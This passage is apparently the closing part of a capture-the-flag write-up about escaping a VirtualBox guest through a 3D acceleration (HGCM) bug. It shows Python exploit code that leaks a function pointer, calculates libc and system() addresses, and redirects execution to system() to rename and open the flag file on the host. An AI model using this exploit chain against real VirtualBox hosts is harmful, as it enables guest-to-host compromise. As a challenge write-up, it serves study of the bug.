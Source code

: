 Triggering `Free()` is really simple and only requires us to send any valid message to the host using `self.client2`.

#### Finding system()

We already know an address, namely `crVBoxHGCMFree()` . It is the function pointer that is stored in the `Free()` field. This subroutine is within the module `VBoxOGLhostcrutil` which also contains other stubs to libc. Therefore, we can easily calculate the address of `system()`.

```python
self.crVBoxHGCMFree = self.read64(self.pConn + OFFSET_CONN_FREE)
print("[+] crVBoxHGCMFree: 0x%x" % self.crVBoxHGCMFree)

self.VBoxOGLhostcrutil = self.crVBoxHGCMFree - 0x20650
print("[+] VBoxOGLhostcrutil: 0x%x" % self.VBoxOGLhostcrutil)

self.memset = self.read64(self.VBoxOGLhostcrutil + 0x22e070)
print("[+] memset: 0x%x" % self.memset)

self.libc = self.memset - 0x18ef50
print("[+] libc: 0x%x" % self.libc)

self.system = self.libc + 0x4f440
print("[+] system: 0x%x" % self.system)
```

#### Capturing The Flag

At this point, we are only one step away from capturing the flag. The flag is stored in a text file at `~/Desktop/flag.txt`. We can see its content by opening the file with any text editor or terminal. During the challenge, you could literally "see" the flag, as a short video was transmitted back to you after submitting the code. *xubuntu* doesn't have *geedit* preinstalled, however a quick google search yield that it should have the text editor *mousepad*.

A little problem that occurred during the first submission is that it crashed the system. I quickly realized that we could not use a string longer than 16 bytes or so, since some pointer is located at this offset. Overwriting it with invalid content would result in a segmentation fault. Therefore, I did a dirty trick and shortened the file path twice, such that it could be opened with less characters:

```python
p.rip(p.system, "mv Desktop a\0")
p.rip(p.system, "mv a/flag.txt b\0")
p.rip(p.system, "mousepad b\0")
```

![](chromacity.gif)

Hurray, after 4-5h I was able to read the flag and was very excited to be the first to solve that challenge (even though it was remotely). Some hours later, the team *Tea Delivers* also succeeded in exploiting this cool bug, congrats to them.

## Conclusion
